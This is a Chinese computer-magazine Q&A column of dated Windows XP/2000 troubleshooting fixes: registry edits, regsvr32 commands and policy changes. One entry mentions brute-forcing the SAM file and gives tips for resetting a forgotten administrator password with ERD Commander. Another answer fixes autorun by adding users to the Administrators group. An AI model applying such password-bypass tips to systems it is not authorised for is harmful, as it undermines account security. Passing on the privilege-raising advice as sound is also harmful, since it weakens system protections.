问：山西读者张松问：我在 Windows XP 中运行 Windows Update 时遇到“Access Denied: Network policy settings prevent you from using Windows Update to download and install updates on your computer.（由于网络策略设置阻止你在计算机上下载和安装更新）”的提示，请问我该怎么处理？

答：
(1) 如果是 Windows XP 专业版，则可以用管理员身份登录后，在系统桌面上用鼠标依次选择“开始→运行”，然后在“打开”栏中键入 gpedit.msc 命令并按回车键打开“组策略”，依次选择“‘本地计算机’策略→用户配置→管理模板→Windows 组件→Windows Update”，在右侧窗口中双击“删除所有 Windows Update 功能的访问”，将其设置为“已禁用”，单击“确定”按钮后退出组策略管理器。
(2) 如果是 Windows XP 家庭版，在注册表编辑器中，找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\WindowsUpdate]，在右侧窗格中双击“Disable Windows UpdateAccess”，将其值修改为“0”后退出注册表编辑器即可。

## 不同用户如何共享智能陈桥五笔

问：河南读者郭贵涛问：我的 Windows XP 系统有两个用户，用第一个账户登录系统可以使用智能陈桥五笔输入法，而使用第二个账户名进入系统却找不到智能陈桥五笔输入法，是否在第二个用户中还要重新安装智能陈桥五笔输入法？

答：在某一个账户状态下安装了智能陈桥五笔输入法，在其他账户中是无法直接使用该输入法的。然而即使不在其他账户中重新安装该输入法你也可以使用。你可以通过下面操作步骤将智能陈桥五笔输入法安装到另一个账户中：
(1) 以另一账户身份登录系统，然后在系统桌面上用鼠标单击“开始→控制面板”。
(2) 双击“区域和语言选项”，在打开的窗口中选择“语言”标签，然后单击“详细信息”按钮。
(3) 在打开的窗口中选择“设置”标签，再单击“添加”按钮，在弹出窗口中的“键盘布局/输入法”下拉列表中选择“智能陈桥”并单击“确定”按钮即可。

## Win2003 影片播放不及 Win2000 流畅

问：天津读者王炜亮问：我的电脑中安装的是 Windows Server 2003，发现原来在 Windows 2000 中可以流畅播放的影片在这个系统中画面质量却很差，还总是出现时断时续的现象，更换了显卡驱动程序仍然不能解决。请问这是怎么回事？如何才能解决这个问题？

答：出现这个问题的原因是 Windows Server 2003 默认的显示选项没有根据个人用户的需要进行优化，导致播放影片的画面质量不好，解决这个问题的方法是：
(1) 在系统桌面上单击鼠标右键。
(2) 在随后弹出的右键菜单中依次选择“显示属性→设置→高级→疑难解答”。
(3) 将“硬件加速”项的游标向右拖至“完全”，再单击“确定”按钮退出。
(4) 在系统桌面上依次选择“开始→所有程序→附件→系统工具→系统信息”。
(5) 选择“工具→DirectX 诊断工具”，选择“显示”标签。
(6) 启用“DirectDraw Acceleration”和“Direct3D Acceleration”项，再单击“退出”按钮即可。

## 时间同步，想来就来

问：Windows XP 自带的 Internet 时间同步服务，默认是上次同步后 7 天自动同步，或手动同步。在不安装第三方软件的情况下，能不能将 7 天修改为其他值，实现定时的时间同步功能呢？(山西 李桐)

答：默认情况下 Windows XP 自带的 Internet 时间同步功能会每隔 7 天进行一次自动校时操作，当然也可以运行“CMD”命令打开命令提示符窗口，再运行“w32tm /resync”命令来手动校时。如果要修改 Windows XP 中时间同步的频率，请打开“注册表编辑器”，找到 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient]，在右侧窗格中新建名为“SpecialInterval”的项，将其默认的 16 位值修改为需要的时间（单位为秒，十进制）。比如，如果你要设置每三天校对一次，那么将其默认值设置为十进制的 259200。

需要提醒大家的是如果出现不能连接 Windows XP 默认的时间服务器（time.windows.com），可以自行更换服务器，如：time-a.timefreq.bldrdoc.gov（公众网），s1a.time.edu.cn（教育网）等。

## 音量图标不翼而飞

问：Windows XP 系统托盘上的“音量”图标不见了，现在听歌时只能靠音箱的音量旋钮来调节音量，能不能帮忙把图标找回来？(广东 郑彬)

答：“音量”图标丢失一般是由于 Windows 目录的 Sndvol32.exe 文件出问题而引起的，一旦该图标丢失，你可以尝试在“开始→运行”中输入“Sndvol32”命令来打开它，这可以作为救急之用。要想找回丢失的音量图标，首先进入“控制面板→声音和音频设备”，确认勾选“设备音量”栏中的“将音量图标放入任务栏”一项。如果图标依然没有恢复，那么请重新安装声卡驱动程序，并将 Windows XP 安装盘放到光驱中，运行“CMD”命令打开命令提示符界面；以光驱盘符为 G，系统安装在 C 盘为例，依次输入以下命令（对于其他情况，需要做相应变动）：
G:
CD i386
expand sndvol32.ex_ C:\windows\system32\sndvol32.exe

## 用户名导致 McAfee 安装失败

问：我的系统是 Windows 2000 中文版，当前登录的用户名为“teng”，此账户为管理员权限，可是在安装 McAfee VirusScan 7.1 企业版的时候，却始终会出现错误并退出。具体症状为:在安装程序完成自解压后，原本应该弹出安装界面，但是却弹出一个错误提示框提示‘安装日志打开失败，文件不存在或者已损坏’，多次安装结果均是如此，清空安装临时文件目录也不能解决问题。(北京 zhengyko)

答:在解决此类故障时，应该对错误提示进行分析后再对症下药，而不能仅因为错误提示就猜测是安装临时文件的问题。而McAfee自解压安装程序的原理是首先进行自解压，将安装程序和安装列表(即‘安装日志’列出每个文件的具体安装目录)解压到当前用户的临时目录下，然后再调用解压好的安装程序根据安装日志进行安装。而在Windows 2000中，临时目录在‘Documents and Settings\用户名’目录下，也就是说McAfee在运行到‘安装文件读取安装日志’时，所引用的目录中就会包含你的当前用户名‘teng...............’，而McAfee VirusScan 7.1安装程序在读取安装日志时恰好不支持路径中包含较长的符号，就造成了安装日志打开失败和安装中止。所以，将该账户名重命名，去掉最后的符号‘.............’，或者换用其他账户登录再安装即可。

## 文件夹的查看方式丢失

问:我在日常使用电脑中，为不同的文件夹设置了不同的‘查看方式’，可是前段时间，我突然发现这些设置大部分都丢失了，请问能否将不同文件夹的‘查看方式’固定下来呢？(上海 皮皮)

答:默认情况下，Windows会记录400个不同文件夹的设置，其中包括200个本地文件夹和200个网络文件夹。一旦超过了这个限制，老的文件夹设置就会被新的给覆盖，此时再打开老文件夹，Windows就会将最近记录的文件夹设置应用到此文件夹中。这就是为什么许多文件夹的查看方式会莫名其妙地‘丢失’的原因。既然如此，那有没有什么补救措施呢？通过修改注册表来将这个默认参数值调大些，这样就基本可以避免这种情况了。具体操作如下:打开‘注册表编辑器’，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam]，将其下的‘BagMRU’和‘B a g s’两个主键删除。再分别在[HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam]和[HKEY_CURRENT_USER\Software\Microsoft\Windows\Shell]两个主键下新建一个名为‘BagMRU Size’的DWORD键值，并将它们的值都设为‘8000’(十进制)或者更大，最后退出‘注册表编辑器’即可。

## 上网后系统速度变慢

问:最近我发现一个奇怪的现象，每次上网一段时间后系统速度就突然变得非常慢，打开‘任务管理器’一看，才发现CPU占用率达到了100%，并且内存占用也跟着上去了，请问我该从哪些方面去着手解决呢？(江西 王翰)

答:造成CPU占用率100%的可能有很多，比如硬件有问题、中病毒、系统设置有问题等。从系统角度讲，可以从下面几种方法入手解决:
- 由于新版的KV、金山、瑞星等杀毒软件都加入了对网页、插件、邮件的实时监控，无疑增大了系统负担。可以在这些软件相关设置选项中关闭不必要的监控功能。
- 蠕虫病毒在系统内复制也可能造成CPU占用率的快速上升，如果svchost.exe、lsass等关键系统进程的CPU占用特别高，很有可能是这种情况。
- 如果是Windows XP，当445端口收到连接请求时，系统将自动为这些连接分配内存和CPU资源，如果445端口受到过多连接请求(如受到攻击)，就会引起CPU占用率升高。解决的方法是:打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver]，在右侧窗格新建名为‘maxworkitems’的REG_DWORD值，将其值设置为‘1024’(如果电脑内存大于512MB)或者‘256’(如果电脑内存小于512MB)。
- 如果你使用的是Windows XP原版，在‘资源管理器’中右击也会引起CPU占用率达到100%。微软官方已经发布了解决这个问题的补丁，使用自动更新功能安装这个补丁即可。

## 无法设置密码

问:我单位的一台安装了Windows XP的电脑，由于管理员密码遗忘，只有一个受限用户可以登录使用，所以我只能尝试用各种方法来重设管理员密码。我试用了saminside lc5.02暴力破解SAM文件等方法，均告失败。当我尝试用ERD Commander 2005来重设管理员密码时，设置也不成功，我记得用ERD Commander重设密码不可能不成功的呀，到底怎么回事？(北京 王艺澎)

答:不错，ERD Commander几乎是万能的Windows密码重设工具，不过下面两个地方需要你在使用时注意:
- 如果这台电脑加入了域，由于域用户密码不在本地，ERD Commander对这样的情况是无能为力的。
- 在组策略设置中有一条‘密码最少为8位且不能为弱口令’，如果该策略被启用，那么你在用ERD Commander重设密码的时候也必须遵循这个限制。有些朋友为了图简单，试图将密码重设为类似‘1234’这样的简短密码，结果都无法成功。解决方法就是在密码重设时选择一个8位以上复杂密码。

## Windows 标题栏字体突然变小

问:我使用的是Windows XP，经常遇到使用一段时间后窗口标题栏的字体突然变小的情况，不管是‘资源管理器’，还是IE，或者别的程序，都出现过这样的情况。如何解决呢？(青岛 张容欣)

答:这实际上是自Windows 2000以来一直悬而未决的系统BUG，Windows 2000/XP/2003的各个版本都有用户发现这样的故障。微软官方也没有公布彻底的解决方法，临时解决方法为:在桌面空白处单击鼠标右键，选择‘属性’菜单，在打开的窗口中切换到‘外观’标签，在‘窗口和按钮’下拉列表中更换一种方案并确认，再次设置换回原来的方案即可，如之前使用的是‘Windows经典样式’，可以先设置为‘Windows XP样式’，再换回‘Windows经典样式’。

## 删除顽固文件终极武器

问:我遇到几个超顽固的文件，怎么删都删不掉，能试的方法基本上都试过了，比如在安全模式下删除、用WinRAR删除、文件粉碎机……结果还是没能搞定。请问还有没有更好的方法或工具？(上海 黄晓鸿)

答:其实在本刊上期的‘傻博士信箱’中已经给出了多种对付顽固文件的方法，你可以先尝试根据其中的方法来删除，如果用文中的方法也无法解决，可以试试一款名为Softscape Tools的DOS工具，它基本上能删除几乎所有难以删除的文件，下载地址:http://www.newhua.com/cfan/200515/stools.rar。下载解压缩后，直接双击运行该文件就是了，其使用方法比较简单，是菜单式的键盘操作。要删除某文件，只需定位后按下‘D’并确认即可。

## 恢复‘本地用户和组’

问:我的电脑装的是Windows XP专业版，为了对用户及相应的权限进行管理，需要打开‘计算机管理’中的‘本地用户和组’，可是无论是右击‘我的电脑→管理→本地用户和组’，还是在‘开始’菜单中的‘运行’中键入‘lusrmgr.msc’都不行，系统显示‘无法访问计算机****，错误是:库没有注册’，这种故障应该如何解决？(Stone.sxy)

答:这是因为注册表的有关注册表项出了问题，将下面框内内容粘贴至记事本中保存为.reg文件后导入即可，或者直接从http://shixinyu.xinwen365.com/Fixlusrmgr.reg下载:
```
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\TypeLib\{97d25db0-0363-11cf-abc4-02608c9e7553}]
[HKEY_CLASSES_ROOT\TypeLib\{97d25db0-0363-11cf-abc4-02608c9e7553}\1.0]
@="Active DS Type Library"
[HKEY_CLASSES_ROOT\TypeLib\{97d25db0-0363-11cf-abc4-02608c9e7553}\1.0\0]
[HKEY_CLASSES_ROOT\TypeLib\{97d25db0-0363-11cf-abc4-02608c9e7553}\1.0\0\win32]
@="%windir%\\system32\\activeds.tlb"
[HKEY_CLASSES_ROOT\TypeLib\{97d25db0-0363-11cf-abc4-02608c9e7553}\1.0\FLAGS]
@="0"
[HKEY_CLASSES_ROOT\TypeLib\{97d25db0-0363-11cf-abc4-02608c9e7553}\1.0\HELPDIR]
@="%windir%\\system32"
```

## Windows XP 下 USB 设备经常失灵

问:我安装的操作系统是Windows XP，电脑共配有4个USB接口，但在使用中发现USB鼠标和USB键盘等USB设备经常出现失灵的现象，此时如果重启电脑或者换一个USB接口却能恢复正常。请问这是为什么？应该如何解决？(杭州 良月)

答:现在的电脑一般都会有4～8个USB接口，但有些装了Windows XP的电脑会出现USB接口不稳定的现象，典型的就如USB鼠标、USB键盘会莫名其妙失灵。其实这是因为Windows XP默认开启了USB的节电模式，致使某些USB接口供电不足，使USB设备间歇性失灵。只要将USB节电模式关闭，USB设备就可恢复正常。右击‘我的电脑’选‘属性’，打开‘系统属性’对话框，切换到‘硬件’选项卡，打开‘设备管理器’，双击‘通用串行总线控制器’，会看到有好几个‘USB Root Hub’，双击任意一个，打开‘USB Root Hub属性’对话框，切换到‘电源管理’选项卡，去除‘允许计算机关闭这个设备以节约电源’前的勾选，点击‘确定’返回，依次将每个USB Root Hub的属性都修改完后重启电脑，USB设备就能恢复稳定运行了。

## 中文统统都变问号

问:前些天，朋友借了我的笔记本用，拿回来后却发现多数的中文软件菜单都变成了‘?’。第一反应是中毒了(现在的病毒太多，症状也千奇百怪，很容易让人第一个怀疑)。于是打开诺顿杀毒软件扫描(最新病毒库)，晕！发现它的中文字也都变成了‘?’，只好凭原来印象完成了原来的杀毒操作，等了十几分钟后，终于扫描结束，但却没发现病毒，难道我只有重装系统这一条路了吗？(河南 项健成)

答:可以试着调用一下原来的中文输入法，如果只能输出英文，就可以基本确定故障是由于系统中的语言设置不当造成的。解决方法如下:点击‘开始→设置→控制面板’，选择打开‘区域和语言选项’，在弹出的窗口中选择‘高级’选项卡，检查‘非Unicode程序的语言’下拉框是否被设置成了除‘中文(中国)’之外的其他值，如果是的话请改回中文，完成后重启电脑即可解决此故障。

## 赶不走的‘全屏幽灵’

问:我使用Windows 2000，一直没有出过什么大问题，但最近几天出现了一件怪事:每当打开控制台程序时，屏幕就会黑下来进入全屏模式，需要用‘Alt + Enter’键才能切换出来，我试着右击任务栏相应图标后选择“属性”，将“选项”标签中的“显示选项”设为“窗口”，之后在弹出的对话框中选择“保存属性，供以后具有相同标题的窗口使用”，以为这下就会恢复正常。但事与愿违，当运行其他控制台程序时，还是老样子，全屏成了赶不走的“幽灵”，让人很不舒服。而且更加奇怪的是，控制台程序即使改到窗口模式，也会在运行的一瞬间先变成全屏，然后再变为窗口模式。(河北 张核铭)

答:这应该是注册表中的相关设置项被改动所致，可能你在出现故障前使用了一些修改注册表的系统优化软件。解决方法:打开“注册表编辑器”，在左侧树状栏中依次点开[HKEY_CURRENT_USER\Console]，在右侧窗口中双击“FullScreen”这个键，将该键值重新设置为默认值0，控制台就能恢复正常。程序运行时系统会先读取该处的设置，然后再读取每个程序的单独设置，此时有些程序设置为窗口模式就会出现全屏模式一闪而过的情况。到此为止，“全屏幽灵”终于被制服了。

## 讨厌的“磁盘空间不足”警告

问:我使用 Windows XP，硬盘80GB 共分了4个区，其中有一个分区专门用来存放常用软件的安装程序。本着物尽其用的原则，所以这个分区我都放满了，剩余空间不足100MB。麻烦的问题来了，Windows XP 经常会发出“磁盘空间不足”的警告通知，让人看着心烦，有什么比较好的解决方法吗?(山西 李毅)

答:点击“开始→运行”，在运行输入框中输入regedit.exe回车，打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Policies]，在其下新建一个名为“Explorer”的子项(如果已经有了就不必新建了)，然后在这个子项下新建一个名为“NoLowDiskSpaceChecks”的 DWORD 值，并将该键值设置为“1”(即停止警告通知，设为“0”则为启用)。但需要注意的是，如果用这个分区来作为下载分区，没有系统警告的情况下要经常留意以避免磁盘空间用完。

## 电话和调制解调器选项无法打开

问:虽然很多朋友都已经用上ADSL或其他类型的宽带了，但我还在电话拨号上网的苦海中挣扎。我所用的系统是 Windows XP，最近有一些设置需要改动，所以就试着打开“控制面板→电话和调制解调器选项”，没想到竟然弹出一个错误提示，大意是“电话和调制解调器面板无法被打开”，救救我吧。(青岛 金玮)

答:这很有可能是系统中的相关服务出现了错误，可以通过在注册表中恢复相关的键值来解决问题。首先点击“开始→运行”，在运行输入框中输入 CMD.EXE打开“命令提示符”窗口，然后键入如下命令:

REG ADD HKLM\SYSTEM\CurrentControlSet\Services\TapiSrv /V Start /T REG_DWORD /F/D 3

完成后重启电脑，问题即可解决。

## Windows XP 又遇光驱丢失

问:我的操作系统是 Windows XP SP2，原来一直用得好好的，可是最近在卸载了Easy CD Creator之后，光驱突然找不到了，原来用Windows 2000时也曾遇到过类似的情况，那时只需重启就解决了。现在情况类似，但不管我怎么重启都不奏效了。光驱的数据线我也检查过了，没有问题，可以确定是操作系统中的设置出了问题，有什么解决方法?(上海 刘琦)

答:这个问题很多用户都遇到过，关键就在于你卸载了Easy CD Creator之后才出现的问题，解决方法非常简单，打开“注册表编辑器”，删除下面两个键值:

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ Class\{4D36E965-E325-11CE-BFC1-08002BE10318}]下的UpperFilters
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ Class\{4D36E965-E325-11CE-BFC1-08002BE10318}]下的LowerFilters

然后重新启动计算机(这步很重要，否则注册表的更改不生效)，光驱就能找回了。

## USB 设备导致开关机故障

问:我的电脑上连接着很多USB设备，由于USB接口有限，所以我买了一个USB HUB并把那些USB设备都接在它上面。但不久之后，我就发现我的Windows XP经常出现问题，有些设备在开机之后没有启动(包括我最重要的USB鼠标)，而且在开关机时经常会出现停止响应的情况。我想这应该是USB相关的故障，除了不使用USB HUB之外，还有没有其他的解决方法呢?(北京 卡夫卡)

答:这确实是USB设备导致的故障，解决方法如下。

1. 打开“注册表编辑器”，首先需要找到出现问题的USB设备的注册表分支，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Enum\USB\<USB Vid and Pid>\<device>\Device Parameters]。
注意:其中“USB Vid and Pid”为USB设备的供应商ID和产品ID，“device”为USB设备号。

2. 在“Device Parameters”项下有一个REG_BINARY值叫做“Selective SuspendEnabled”，右击选择“删除”，在弹出的删除确认对话框中点击“是”。

3. 退出“注册表编辑器”，重启电脑。

## Windows XP 无法关机

问:我的系统是Windows XP，最近我的电脑无法关机了，用正常方法关机没有任何反应，有时还会死机，所以只好按住机箱上的电源开关来强行关机。请问这种故障是什么原因造成的?如何解决?另外，我听说用电源开关来强行关机对系统有害，这是真的吗?(山西 王冬)

答:这种故障可能的原因有很多，如果排除硬件故障的可能，那么可以列出下面这些可能的原因:
①杀毒软件冲突:有些杀毒软件与Windows XP SP2有冲突，会导致关机困难。在关机前先将杀毒软件的实时监控禁用，然后关闭其系统托盘驻留程序，再关机如果问题解决，则可确定是杀毒软件冲突导致，建议更换杀毒软件。
②内存驻留程序:和杀毒软件冲突的情况略有相同，在关机前先将系统中驻留的软件关闭，找出影响关机的程序。
③病毒感染:有很多病毒(比如VBS病毒)都会在系统中不断自我复制，这类病毒在感染系统后就有可能出现关机困难的症状，解决方法是更新杀毒软件并及时杀毒。
④USB设备冲突:在关机前将USB设备拔出即可解决。
⑤优化后遗症:Windows在关机时会给驻留在内存中的程序发消息，告诉它们可以关闭了，并给这些程序一定的时间来自我关闭，超过时间后Windows就会认为该程序失去响应而强行关闭它。如果曾经使用过系统优化软件或手动修改了程序关闭的等待时间，将该值设成了一个过小的值，那么系统就会在关机时将很多程序当成失去响应并强行关闭它们，这样的后果就是系统可能因此失去响应(假死)。解决方法是将该值恢复原状。

用电源按钮关机确实有害，这样做会导致在内存中还未写入硬盘的数据丢失，并且久而久之会对硬盘造成损害。

## 整治右键菜单故障

问:最近我的Windows XP似乎病入膏肓了，主要症状是点击右键后出现不少怪问题，比如点击右键后右键菜单很久才能显示出来，在“资源管理器”中右键点击文件夹常常导致“资源管理器”崩溃。看起来问题很严重，难道是我该重装系统的时候了?(广西 林晃)

答:出现这样的问题很可能是一些软件安装后添加的插件或右键菜单扩展造成的，解决方法如下:

第一步:从http://www.nirsoft.net/utils/shexview.zip下载ShellExView，运行ShellExView后，大家可以看到所有系统扩展都详细列出，选中所有“Company”不是“Microsoft Corporation”的项，选择“File→Disable Selected Items”菜单将所有第三方软件安装的扩展都加以屏蔽。

第二步:选中第一个被屏蔽的扩展，选择“File→Enable Selected Items”菜单启用该扩展，然后看看是否还存在右键菜单问题，如果不存在问题，那么接着开启下一个扩展……以此类推，直到找出“罪魁祸首”，找到后只需要屏蔽掉该扩展即可。

第三步:我们还可以通过查看“Product Name”知道这个“罪魁祸首”是哪款软件，将该软件卸载后重新安装即可。

## 修正 Windows XP 对文档内容搜索的支持问题

问:我发现这个问题很久了，那就是当我在Windows XP中使用系统自带的搜索功能进行内容搜索时，常常得不到完全的结果。比如我的E:\work目录下有个1.log文件，而该文件中明明存在一个叫“电脑爱好者”的词组，但我在搜索“电脑爱好者”关键字的时候却查不到任何结果，而我用Google Desktop Search却能办到。难道Windows XP不支持内容搜索?(河北 刘金宇)

答:你说的这个情况确实存在，这是由于.log格式没有注册筛选器组件而造成的，还有一些文件类型跟.log属于同样的情况，比如DLL、JS、ASP、XML、XSL、HTA、CSS、WSH、CPP、C、H等。

要使用全文搜索，该文档文件类型必须注册筛选器组件，Windows的标准筛选器组件包括Mimefilt.dll(筛选Internet邮件扩展文件)、Nhtml.dll(筛选网页文件)、Offfilt.dll(筛选Office文件)、Query.dll(筛选纯文本文件和二进制文件)。Windows 9X/2000默认注册了所有文档格式文件，而Windows XP为了避免获得太多无关结果，并不能搜索所有文件。要解决这一问题，方法很简单:

运行“Regedit”命令打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ContentIndex]分支，将其中名为“FilterFilesWithUnknown Extensions”的DWORD值设置为“1”即可。

## 解决不能为用户安装默认网络打印机故障

问:我们单位的电脑都是安装的Windows XP SP2，但无法指定默认的网络打印机，而需要每个用户都去登录安装有网络打印机的计算机去安装一遍。如何解决这个问题呢?(山西 苏婷婷)

答:这是由于与网络打印机有关的某些注册表项丢失造成的，可以尝试下面的方法来解决:

第一步:用管理员账户登录到系统中，首先创建一个名为“Test”的新用户。

第二步:依次进入“开始→设置→控制面板→文件夹选项”，切换到“查看”标签，勾选“显示所有文件和文件夹”，取消勾选“隐藏所有文件和文件夹”，确认。

第三步:注销管理员账户，用刚创建的Test用户登录，运行CMD打开“命令提示符”窗口，执行“net use lpt1:\servername\share /user:administrator”，其中“servername”是具有共享网络打印机的服务器的名称，“share”是网络打印机的共享名，“administrator”是该服务器上具有管理凭证的用户账户的名称。

第四步:这时会提示输入管理员密码，输入后确认，单击“开始”，单击“打印机和传真”。

## 解决搜索栏变成空白的问题

问:我使用的是Windows XP SP2,不知道怎么回事,现在打开搜索项出现的是空白,而且相关搜索的设置选项也打不开,只有那只搜索的狗狗坐在那里。(四川 康健)

答:你是不是进行了系统“瘦身”?或者是因为安装某个程序而破坏了系统文件。一般类似的表现还有:打开“搜索”功能后,系统弹出错误对话框,提示“无法找到运行搜索助理需要的一个文件。你可以尝试运行安装程序。”可以尝试用以下方法来解决:

- 方法1:打开文件夹C:\Windows\inf,找到srchasst.inf文件,右击后在弹出的菜单中选择“安装”,这可以让搜索助手功能重新安装。
- 方法2:运行regedit打开“注册表编辑器”,定位到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\CabinetState],新建字符串值“Use Search Asst”,设置其值为“NO”。
- 方法3:重新安装Service Pack 2,安装程序会针对系统中出现的某些问题进行修复。
- 方法4:从http://www.microsoft.com/downloads/details.aspx?displaylang=en&FamilyID=9D1F0B73-259A-4A1B-93A4-F02C1BCB15A下载安装Q319949补丁,该补丁用于解决搜索助理的文件丢失问题。

## 解决Windows Media Player“撕破脸皮”的问题

问:最近在使用Windows Media Player在线听音乐和看电影的时候经常出现播放器控制按钮按钮丢失的问题(具体表现为“下一首”按钮丢失,取而代之的是一个黑色的框),无论怎么刷新问题依旧,重新安装Windows Media Player也不行。有朋友说可能是Windows Media Player主题的问题,我换了别的主题问题依然无法解决。傻博士帮帮我吧!(北京 方晓欣)

答:你的这个问题还真难住了傻博士,不过好在Google,傻博士通过Google解决了。过程如下:傻博士在自己的电脑里打开IE,选择“工具→管理加载项”菜单,看到了其中与Windows Media Player有关的加载项——msdxm.ocx,于是在Google中以“wmp10 ocx”为关键字在Google中搜索,最后发现了一个国外的朋友也有同样的问题并已经解决,文章链接是http://www.mcse.ms/message1758155.html。其采用的方法是运行以下三个命令重新注册一下Windows Media Player控件,重启后问题即可解决:

regsvr32 msdxm.ocx
regsvr32 wmp.dll
regsvr32 wmpdxm.dll

## WinMgmt.exe总是提示出错

问:我的Windows 2000每隔不到一分钟就提示“WinMgmt.exe产生了错误,会被Windows关闭。您需要重新启动程序。正在创建错误日志。”关闭后仍然会提示,请问如何解决?(重庆 王华)

答:这是因为位于%SystemRoot%\System32\Wbem\Repository文件夹下的文件损坏造成的。由于Winmgmt.exe进程每30秒到60秒就会读取这些文件,一旦失败就会出现错误提示,因此就出现了有规律的错误提示现象。解决的方法是:

- 1. 运行Services.msc打开服务管理,找到“Windows Management Instrumentation”服务,右击该服务选择“停止”。
- 2. 删除%SystemRoot%\System32\Wbem\Repository下的所有文件(删除前建议先备份,以防发生意外)。
- 3. 在服务管理中右击“Windows Management Instrumentation”服务选择“启动”,服务成功重启后,系统就会根据注册表中[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WBEM\CIMOM\Autorecover MOFs]下的信息重新创建刚才删除的那些文件。

## 光盘无法自动播放

问:在Windows XP下,我发现在使用某些用户账户登录系统后,插入光盘时无法自动播放光盘内容,而使用其他账户登录时却很正常。组策略中也没有禁用该功能,请问这是怎么回事?(西安 陈露)

答:我们知道,光盘要自动播放首先要读取光盘根目录中的Autorun.inf文件的信息。因为该文件属于INF类型文件,系统认为该文件含有安装信息。而如果当前用户不是Administrators(管理员)组或Power Users(高级用户)组的用户,是不允许安装任何软件的,所以就无法读取INF文件实现自动播放。解决的方法是将该用户加入到Administrators组或Power Users组中。

## 打开“控制面板”后没有响应

问:我的系统是Windows XP SP1,没有安装SP2。最近频繁出现了打开“控制面板”后窗口就停止响应的问题,无法打开里面的任何项目,请问这是怎么回事?(广西 白晓峰)

答:这是输入法编辑器(IME)偶尔引起的故障,安装Windows XP Service Pack 2(即俗称的“SP2”)就可以解决该问题。我们也可以打开“Windows任务管理器”,然后在“进程”选项卡中找到“Conime.exe”,单击“结束进程”按钮结束该进程来解决该问题。有些用户出于软硬件兼容性的考虑不想安装SP2,那么可以参考本期的《系统蓝色档案(四)——conime.exe洗冤录》,其中介绍了禁止conime.exe随CMD启动的方法。

## 安装某些补丁时Explorer.exe出错

问:我的Windows XP系统启用了“自动更新”更新,但当提示安装一些补丁,例如MS04-025或MS04-024时,Explorer.exe就提示遇到错误需要关闭,请问如何解决?

答:这是由于你当前系统安装的某些补丁发生冲突造成的。解决方法是:首先运行Regedit.exe打开“注册表编辑器”,找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer],在右侧窗格中双击“UseDesktopIniCache”,将其值修改为“0”。然后安装Internet Explorer的累积更新(http://support.microsoft.com/kb/871260/),安装完成后重启电脑,将刚才提到的DWORD值“UseDesktopIniCache”的键值修改为“1”。

## IE出现故障时的修复

问:最近发现IE老出问题,想重装IE 6.0,但发现提示目前已为最新版本,无法进行安装,请问如何解决?(广东 黄展鸿)

答:很多常见的IE问题都是由于某些DLL未注册而导致的,所以我们可以先尝试使用IE 6.0自带的一个功能来重新注册所有IE 6.0需要的DLL,方法是运行“C:\Program Files\Internet Explorer\IEXPLORE.EXE”/rereg(不含外侧中文引号),如果该方法无法修复遇到的IE故障,那么我们可以尝试重装它。

①如果没有Windows XP的安装光盘,但有IE 6.0安装程序,可以修改注册表来让IE 6.0正常安装,方法是:打开“注册表编辑器”,找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components\{89820200-ECBD-11cf-8B85-00AA005B4383}],在右侧窗格中将“IsInstalled”的键值修改为“0”,然后就能正常安装IE了。
②如果你手上有Windows XP的安装光盘(需与当前系统版本相同),可以直接运行“rundll32.exe setupapi,InstallHinfSection DefaultInstall 132 %windir%\Inf\ie.inf”来重装IE 6.0。

## 解决自动登录系统的问题

问:最近遇到个棘手的问题,我的Windows XP系统的管理员密码为空并且设置为自动登录(不弹出登录对话框),可不知道怎么每次登录时系统都要弹出错误提示,需要回车后再行登录。(上海 张欢)

答:这可能是之前系统中某人设置了账户的自动登录,而之后的系统改动又破坏了这些配置。

- 第一步:运行regedit打开“注册表编辑器”,找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon],检查一下是否设置了“AutoAdminLogon”、“DefaultUserName”、“DefaultPassword”等值,如果有,则将他们删除,或者将“AutoAdminLogon”设置为“0”。
- 第二步:运行“Control Userpasswords2”命令打开用户账户管理,选择你要自动登录的管理员账户,取消勾选“要使用本机,用户必须输入用户和密码”,确认后要求输入密码,输入后即可。

## “网络猪”带来的系统错误

问:我每次登录Windows XP时,都会提示“Search.exe - 无法找到组件,没有找到Mousel.dll,因此这个应用程序未能启动。重新安装应用程序可能会修复此问题。”如何去掉这个讨厌的提示?(北京 杨文斌)

答:Search.exe是“网络猪”搜索工具中的一个程序,Mousel.dll是该搜索工具中用来监视鼠标活动的一个组件。可以在“控制面板→添加或删除程序”中卸载“网络猪”,卸载后仍然出现此问题,可运行msconfig.exe打开“系统配置实用工具”,禁用“MoveSearch”开机自启动项。如果是在Windows 2000中出现此问题,则可使用“注册表编辑器”删除[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]下的“MoveSearch”键值。

## “系统还原”和“自动更新”等窗口为空白

问:我最近给系统做了一次优化,没想到优化结束后系统出现了各种奇怪的症状,所以我决定用“系统还原”功能恢复。但是测试后发现,系统中的“自动更新”和“系统还原”功能也失效了,打开后都显示空白,难到一定要重装系统了吗?救救我吧……(河北 张赛)

答:这时由于Jscript.dll和Vbscript.dll这两个DLL未注册导致的。未注册这两个DLL可能导致的故障现象为:打开“用户账户”、“帮助和支持”、“系统恢复”和“自动更新”时窗口显示空白,而且无法正常显示包含Vbscript、Jscript的网页内容,例如“动网论坛”。解决的方法是:依次运行“regsvr32 jscript.dll”和“regsvr32 vbscript.dll”命令注册这两个DLL,然后重启电脑即可。

